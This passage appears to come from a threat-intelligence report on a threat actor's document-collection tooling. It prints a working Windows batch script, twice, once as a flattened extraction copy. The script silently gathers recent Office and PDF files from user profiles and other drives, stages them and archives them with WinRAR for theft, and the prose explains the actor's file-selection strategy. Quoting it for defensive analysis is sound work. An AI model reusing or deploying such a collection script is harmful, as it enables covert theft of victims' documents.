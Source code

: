 powershell.exe "get-content c:\users\public\tmp_\ph.txt | copy-item -Destination c:\users\public\tmp_ -Force -ErrorAction SilentlyContinue"  >nul 2>nul

if EXIST C:"\Program Files\"WinRAR (
    C:"\Program Files\"WinRAR\rar.exe a -v200m c:\users\public\tmp_.rar c:\users\public\tmp_ -ep >nul 2>nul
    rmdir /s /q c:\users\public\tmp_
) else if exist C:"\Program Files (x86)\"WinRAR (
    C:"\Program Files (x86)\"WinRAR\rar.exe a -v200m c:\users\public\tmp_.rar c:\users\public\tmp_ -ep >nul 2>nul
    rmdir /s /q c:\users\public\tmp_
)
exit




123456789101112131415

@echo offmkdir c:\users\public\tmp_ >nul 2>nulpowershell.exe "Get-Wmiobject -Class Win32_logicaldisk | where size -gt 0 | select-object -ExpandProperty DeviceID >> c:\users\public\tmp_\disk.txt"powershell.exe "get-content c:\users\public\tmp_\disk.txt | foreach {if ($_ -eq \"C:\"){dir \users  -Exclude "tmp_" | %%{dir $_.FullName -File -Recurse -Include '*.pdf', '*.doc', '*.docx', '*.xls', '*.xlsx' | where LastWriteTime -gt (Get-date).AddDays(-4) | %%{$_.FullName} >> c:\users\public\tmp_\ph.txt} } else{dir $_\ -File -Recurse -Include '*.pdf', '*.doc', '*.docx', '*.xls', '*.xlsx' | where LastWriteTime -gt (Get-date).AddDays(-20) | %%{$_.FullName} >> c:\users\public\tmp_\ph.txt}}" powershell.exe "get-content c:\users\public\tmp_\ph.txt | copy-item -Destination c:\users\public\tmp_ -Force -ErrorAction SilentlyContinue"  >nul 2>nul if EXIST C:"\Program Files\"WinRAR (    C:"\Program Files\"WinRAR\rar.exe a -v200m c:\users\public\tmp_.rar c:\users\public\tmp_ -ep >nul 2>nul    rmdir /s /q c:\users\public\tmp_) else if exist C:"\Program Files (x86)\"WinRAR (    C:"\Program Files (x86)\"WinRAR\rar.exe a -v200m c:\users\public\tmp_.rar c:\users\public\tmp_ -ep >nul 2>nul    rmdir /s /q c:\users\public\tmp_)exit




In the example above, the files were archived in a tmp_ folder; we also observed the use of a folder with a name parameterized according to the hostname, such as:


PowerShell


c:\intel\%hostname%




1

c:\intel\%hostname%




The documents to be collected are also selected based on their last writing time. The files should have a last modified date greater than a certain number of days. This number is usually passed as a script argument and can be hardcoded (as in the previous example).
The collection script uses a different strategy when selecting data sources on primary and secondary drives. For a default Windows primary drive, the script traverses user profile directories (C:\Users). This approach increases the likelihood of capturing valuable data while reducing the processing time required and minimizing the chance of collecting unwanted files. When dealing with external devices and other non-primary storage media, the script opts for a more expedient strategy by selecting the root directory (\). While the primary drive is always available, secondary drives may not always be accessible, restricting collection opportunities. To mitigate this limitation, the threat actor occasionally expands the temporal range to include older files in its scope on secondary and removable drives (as can be noted in the BAT snippet).
The following is how the PS1 script is structured instead:
